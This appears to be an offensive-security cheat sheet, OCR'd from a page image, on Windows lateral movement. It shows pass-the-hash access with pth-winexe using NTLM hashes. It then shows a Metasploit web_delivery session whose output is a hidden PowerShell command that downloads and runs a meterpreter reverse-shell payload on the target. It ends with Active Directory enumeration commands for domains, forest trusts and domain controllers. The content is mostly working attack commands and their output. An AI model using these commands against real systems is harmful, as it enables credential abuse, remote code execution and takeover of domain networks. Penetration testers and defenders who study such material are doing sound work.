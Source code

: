 pth-winexe -U DOMAIN/USERNAME%cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb //IP_Server cmd.exe
Real Example :

pth-winexe -U LAB/Administrator%cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb //192.168.1.44 cmd.exe
PTH-winexe to Meterpreter
msf exploit(web_delivery) > use exploit/multi/script/web_delivery 
msf exploit(web_delivery) > set target 2
target => 2         
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set L
set LHOST         set LISTENERCOMM  set LOGLEVEL      set LPORT         
msf exploit(web_delivery) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(web_delivery) > set LPORT 1233
LPORT => 1233
msf exploit(web_delivery) > exploit 
[*] Exploit running as background job 0.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:1233 
[*] Using URL: http://0.0.0.0:8080/gOAr7kQOTh
msf exploit(web_delivery) > [*] Local IP: http://10.2.15.194:8080/gOAr7kQOTh
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $j=new-object net.webclient;$j.proxy=[Net.WebRequest]::GetSystemWebProxy();$j.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $j.downloadstring('http://127.0.0.1:8080/gOAr7kQOTh');
Copy the powershell command into the cmd opened with pth_winexe

Active Directory
# current domain info
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# domain trusts
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

# current forest info
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

# get forest trust relationships
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()

# get DCs of a domain
nltest /dclist:offense.local
net group "domain controllers" /domain
